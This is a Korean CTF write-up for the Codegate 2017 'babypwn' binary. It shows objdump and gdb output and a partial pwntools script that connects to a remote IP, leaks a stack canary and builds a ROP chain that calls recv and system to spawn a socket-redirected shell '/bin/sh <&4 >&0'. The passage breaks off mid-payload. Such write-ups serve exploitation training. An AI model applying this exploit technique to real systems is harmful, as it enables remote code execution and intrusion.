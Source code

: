```
pocas@pocas-VirtualBox:~/pwn/Codagate 2017$ objdump -h babypwn 

babypwn:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn

(생략)
 24 .bss          0000000c  0804b1b4  0804b1b4  000021b4  2**2
                  ALLOC
(생략)
```
<strong>objdump를 이용해 bss를 구했습니다.</strong><br>


```
pocas@pocas-VirtualBox:~/pwn/Codagate 2017$ gdb -q ./babypwn
Reading symbols from ./babypwn...(no debugging symbols found)...done.
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x8048620 <system@plt>
gdb-peda$ 
```
<strong>그리고 해당 파일에 system 함수가 존재하기 때문에 libc를 따로 구하지 않아도 될 거 같습니다. 이제 Canary를 릭하고, system 함수가 존재하는 것을 알았기 때문에 ROP를 해보겠습니다.</strong><br>

- 시나리오<br>

1. 카나리를 릭한다 (Null 값 조심).
2. recv 함수를 이용해서 bss에 Command를 넣어준다. (bss에 값을 넣어줄 수 있는 함수가 recv 함수뿐이 없다)
3. system 함수의 인자로 bss를 넘겨준다. bss에는 `/bin/sh <&4 >&0`가 들어있다. <br>

```python
from pwn import *

p = remote("141.164.52.207", 8181)
E = ELF("./babypwn")

# Canary Leak
p.sendlineafter("> ","1")
p.sendafter(": ", "a" * 41)
canary = u32("\x00" + p.recv(1024)[41:44])

log.info("Canary : {}".format(hex(canary)))

ppppr = 0x8048eec
bss = E.bss()
system_plt = E.plt['system']
recv_plt = E.plt['recv']

command = "/bin/sh <&4 >&0"
log.info("bss : {}".format(hex(bss)))

p.close()

# ROP Exploitation
p = remote("141.164.52.207", 8181)

# ROP Channing
payload = "a" * 40
payload += p32(canary)
payload += "a" * 12 # Dummy[8] + SFP[4]

payload += p32(recv_plt)
payload += p32(ppppr)
payload += p32(4)
payload += p32(bss)
```